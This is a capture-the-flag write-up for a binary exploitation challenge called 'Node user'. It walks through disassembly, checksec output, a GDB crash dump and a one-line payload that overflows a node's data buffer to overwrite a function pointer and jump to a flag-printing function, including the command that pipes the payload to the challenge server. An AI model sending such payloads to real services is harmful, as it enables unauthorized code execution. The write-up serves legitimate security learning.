

# Node user

First I did basic tests of the application's functionality and used `objdump` along with `ghidra` to help me observe things more easily.

## Checking around

### `objdump` :

There is a function named `call_me` that calls `system@plt`

```asm
00000000004016ec <call_me>:
  4016ec:       f3 0f 1e fa             endbr64
  4016f0:       55                      push   rbp
  4016f1:       48 89 e5                mov    rbp,rsp
  4016f4:       48 8d 05 46 09 00 00    lea    rax,[rip+0x946]        # 402041 <_IO_stdin_used+0x41>
  4016fb:       48 89 c7                mov    rdi,rax
  4016fe:       e8 0d fa ff ff          call   401110 <system@plt>
  401703:       90                      nop
  401704:       5d                      pop    rbp
  401705:       c3                      ret
```

### **code :**

```asm
void call_me(void)

{
  system("cat flag");
  return;
}
```

So our goal in this challenge is to control the instruction pointer value to point to the address of the `call_me` function, which is `0x4016ec`.

Some additional information about the challenge:

```xml
checksec --file=node_node_node --output=xml
<?xml version="1.0" encoding="UTF-8"?>
<file relro="partial" canary="yes" nx="yes" pie="no" rpath="no" runpath="no" symbols="yes" fortify_source="no" fortified="0" fortify-able="3" filename='node_node_node'/>
```

Honestly, if this binary were PIE=yes I'd be stuck too hehe

```xml
file node_node_node 
node_node_node: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=be8dfb6255380f87d596a9038ccfe2f3e6d37183, for GNU/Linux 3.2.0, not stripped
```

## Find vuln

While debugging and testing the application with GDB, I noticed that when sending the value `aaaa` to option 3 after creating a first node, the application repeatedly asked me to enter the content three more times!!!

```xml
└─$ ./node_node_node 
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
1
Id: 
1
Created
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
3
Read from: 
aaaa
Node: 1
Data: 
Done!
Data saved
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Read from: 
Node: 1
Data: 
aaaa
Done!
Data saved
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Read from: 
Node: 1
Data: 
aaaa
Done!
Data saved
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Read from: 
Node: 1
Data: 
aaaa 
zsh: segmentation fault  ./node_node_node

```

A segmentation fault suddenly appeared!!!

I immediately used gdb to debug what happened!!! I repeated the steps above and stopped right at the last point after "Done!" appeared

```python
$rax   : 0xa626262         
$rbx   : 0x0000000000405360  →  "aaa\nbbbb\nbbbb\nbbbbb\n"
$rcx   : 0x00007fffffffdd88  →  0x00007fffffffe126  →  "COLORFGBG=15;0"
$rdx   : 0x0000000000402004  →  0x6e490021656e6f44 ("Done!"?)
$rsp   : 0x00007fffffffdac8  →  0x00000000004015ce  →  <Read_Graph+0147> mov DWORD PTR [rbp-0x138], 0x0
$rbp   : 0x00007fffffffdc20  →  0x00007fffffffdc60  →  0x0000000000000001
$rsi   : 0x000000000040536e  →  0x00000a6262626262 ("bbbbb\n"?)
$rdi   : 0x0000000000402004  →  0x6e490021656e6f44 ("Done!"?)
$rip   : 0xa626262         
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdd88  →  0x00007fffffffe126  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe310  →  0x0000000000000000
$r15   : 0x0000000000403e18  →  0x0000000000401240  →  <__do_global_dtors_aux+0000> endbr64 
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdac8│+0x0000: 0x00000000004015ce  →  <Read_Graph+0147> mov DWORD PTR [rbp-0x138], 0x0      ← $rsp
0x00007fffffffdad0│+0x0008: 0x0000000000000001
0x00007fffffffdad8│+0x0010: 0x0000000000000002
0x00007fffffffdae0│+0x0018: 0x0000000000000007
0x00007fffffffdae8│+0x0020: 0x0000000100000000
0x00007fffffffdaf0│+0x0028: 0x0 0000000000000001
0x00007fffffffdaf8│+0x0030: 0x0000000000405350  →  0x0000000000000002
0x00007fffffffdb00│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xa626262
─────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "node_node_node", stopped 0xa626262 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ni

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
gef➤  

```

As shown above, I successfully controlled the value of `$rip`.

Here we see that when passing the value for node 2 it returned the address `a626262` to `$RIP`.

`0x62` = b

`0x0a` = newline

Arrange in little-endian order:

\xec\x16\x40

```python
┌──(kali㉿kali)-[~/Downloads/ctf/VCS2025/nodeuser]
└─$ echo -ne "1\n1\n3\naaaa\naaaa\naaaa\n\x00\x00\x00\x4\xec\x16\x40"  | ./node_node_node
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Id: 
Created
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Read from: 
Node: 1
Data: 
Done!
Data saved
1. Create node
2. Link nodes
3. Save data
4. Exit
>> 
Read from: 
Node: 1
Data: 
VCS{test}

```

```c
 echo -ne "1\n1\n3\naaaa\naaaa\naaaa\n\x00\x00\x00\x4\xec\x16\x40"  | nc 103.75.186.106 1337
```



## Explanation

So what's the main cause of this?

```c
void Read_Graph(size_t start)
{
    size_t is_visited[0x10] = {0}, n;
    node *node_list[0x10], *tmp;

    if(!nodes[start])
    {
        puts("Not created node");
        return;
    }
    
    node_list[0] = nodes[start];
    
    n = 1;
    while(n)
    {
        tmp = node_list[0];
        printf("Node: %llu\n", tmp->id);

        is_visited[tmp->id] = 1;

        tmp->func_ptr("Data: ");
        read(0, tmp->data + strlen(tmp->data), 0x10);
        tmp->func_ptr("Done!");

        for(int i = 0; i < tmp->n; i++)
        {
            if(!is_visited[tmp->link[i]])
                node_list[n++] = nodes[tmp->link[i]];
        }

        //remove the first element in node_list
        for(int i = 0; i < n; i++)
            node_list[i] = node_list[i+1];
        n--;
    } 
    puts("Data saved");
}
```

At line ~80 there is a vulnerability where the code uses a function pointer to print messages:

```c
read(0, tmp->data + strlen(tmp->data), 0x10);
```

At that point I wrote successive `aaaa` values to perform a carefully calculated buffer overflow which allowed me to control and overwrite `tmp` such that it leads to:

```c
tmp->func_ptr("Done!");
```

And that's my explanation for this challenge!!
